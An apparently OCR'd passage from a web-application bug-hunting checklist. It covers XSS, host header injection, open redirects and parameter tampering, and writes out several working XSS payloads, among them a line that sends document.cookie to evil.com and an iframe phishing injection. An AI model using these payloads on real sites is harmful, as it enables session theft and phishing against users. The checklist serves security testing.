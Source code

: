 ### 6. XSS

**Approach:**

1. Input value (try payload like `"<script>alert(document.domain)</script>"`) reflected without XSS protection
2. Use XSS validator - Intruder
3. Host header injection through XSS:
    - Add `referer: batman`
    - Add `hostheader: bing.com`
4. URL redirection through XSS:
    - `document.location.href="<http://evil.com>"`
5. Phishing through XSS - iframe injection:
    - `<iframe src="<http://evil.com>" height="100" width="100"></iframe>`
6. Cookie stealing through XSS:
    - `document.location.href="<http://evil.com/p/?page=>" + document.cookie`
7. File upload through XSS:
    - Upload a picture file, intercept it, and change `picture.jpg` to XSS payload using Intruder attack
8. Remote File Inclusion (RFI) through XSS:
    - `php?=http://brutelogic.com.br/poc.svg - xsspayload`
9. Convert self XSS to reflected one:
    - Copy response in a `file.html` -> it will work
10. XSS through URI parameters:
    - `site.com/about/xss"><script>`**Tool Used:** XSS Validator / Burp Suite

### 7. Host Header Injection

**Approach:**

1. URL redirection through host header:
    - Check URL having 2xx, 3xx
    - Change `X-forwarded-host` to `realweb.com` and `bing.com`
2. Web cache poisoning through Host Header Injection:
    - Injection will be reflected in any buttons of the page
3. Host header attack on password reset page
4. XSS through Host Header Injection****

### 8. URL Redirection or Open Redirect

**Approach:**

1. Common parameter list:
    - `dest`, `redirect`, `uri`, `path`, `continue`, `url`, `window`, `to`, `out`, `view`, `dir`, `show`, `navigation`, `open`, `u`, `file`, `val`, `validate`, `domain`, `callback`, `return`, `page`, `feed`, `host`, `port`, `next`, `data`, `reference`, `site`, `html`
2. Test URLs:
    - `site.com/bing.com`, `site.com//bing.com`, `site.com/payloads`****

### 9. Parameter Tampering

**Approach:** Apply to ecommerce websites
